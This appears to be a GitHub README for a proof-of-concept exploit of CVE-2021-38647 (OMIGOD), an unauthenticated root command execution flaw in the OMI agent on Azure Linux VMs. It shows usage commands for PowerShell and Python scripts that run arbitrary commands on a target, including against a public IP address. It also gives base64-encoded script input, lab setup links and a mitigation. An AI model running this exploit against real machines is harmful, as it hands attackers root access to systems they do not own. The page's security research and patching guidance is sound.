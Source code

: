 # CVE-2021-38647

CVE-2021-38647 - POC to exploit unauthenticated RCE #OMIGOD

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/AlteredSecurity](https://github.com/AlteredSecurity) |
| Url      | [https://github.com/AlteredSecurity/CVE-2021-38647](https://github.com/AlteredSecurity/CVE-2021-38647)                                               |
| Stars    | 59                                                          |
| License  | Other                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2021-38647

CVE-2021-38647 - POC to exploit unauthenticated RCE `#OMIGOD` on Azure UNIX/Linux VMs!

## Details

In Microsoft's Azure, the OMI application gets installed automatically when services like Azure Automation Accounts, Update Management, Log Analytics, Configuration Management, etc., are used for UNIX/Linux VM's. The OMI application also exposes the service over port 5986 if the Configuration Management service is used for managing the machine remotely. 

Anyone with network access to vulnerable endpoint can send a request that leverages the SCXcore provider without the Authorization header and execute OS commands on the target machine with root privileges!

This vulnerability is now fixed but always worth to check against Linux VMs in Azure.

## Usage

### PowerShell

```
# Execute command on the target machine.
Invoke-CVE-2021-38647 -TargetIP 127.0.0.1 -TargetPort 5986 -Command whoami
```

![](images/poc01.png)

```
# Execute script on the target machine.
$MyScript = @"
id
whoami
uname -a
"@
$enc = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($MyScript))
Invoke-CVE-2021-38647 -TargetIP 1.1.1.1 -TargetPort 5986 -Script $enc
```

![](images/poc02.png)

### Python

```
# Execute command on the target machine.
python CVE-2021-38647.py -t 40.87.92.228 -p 5986 -c id
```

![](images/poc03.png)

```
# Execute script on the target machine.
$MyScript = @"
id
whoami
uname -a
"@
$enc = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($MyScript)) #  For Windows

echo 'id' | base64 # For Linux

python CVE-2021-38647.py -t 40.87.92.228 -s ZWNobyAiIg0KZWNobyAiSGVsbG8iDQplY2hvICJHb29kYnllIg==
```

![](images/poc04.png)

## Deploy Test Environment

ARM Template to deploy on Azure - https://github.com/OTRF/Azure-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-38647-OMI

Deploy without Azure - https://rootsecdev.medium.com/creating-your-own-private-pwn-lab-for-omi-exploitation-b6919fc63956

## Detection & Mitigations

https://techcommunity.microsoft.com/t5/azure-sentinel/hunting-for-omi-vulnerability-exploitation-with-azure-sentinel/ba-p/2764093

To mitigate the vulnerability we need to update OMI agent to version 1.6.8.1 or above.

## Reference Links

https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-38647 

https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure 

https://rootsecdev.medium.com/creating-your-own-private-pwn-lab-for-omi-exploitation-b6919fc63956 

https://techcommunity.microsoft.com/t5/azure-sentinel/hunting-for-omi-vulnerability-exploitation-with-azure-sentinel/ba-p/2764093 

https://github.com/OTRF/Azure-Sentinel2Go/tree/master/grocery-list/Linux/demos/CVE-2021-38647-OMI

## Blog

https://www.alteredsecurity.com/post/omigod-cve-2021-38647

## Credit

WIZ Team - https://www.wiz.io/blog/omigod-critical-vulnerabilities-in-omi-azure

## Disclaimer

This project is meant for educational purposes only. 
The creator takes no responsibility of any mis-use of this tool.



## Get the content

```
git clone https://github.com/AlteredSecurity/CVE-2021-38647
cd CVE-2021-38647
```

{% embed url="https://github.com/AlteredSecurity/CVE-2021-38647" %}

<figure><img src="https://avatars.githubusercontent.com/u/71595940?v=4" alt=""><figcaption><p>AlteredSecurity</p></figcaption></figure>
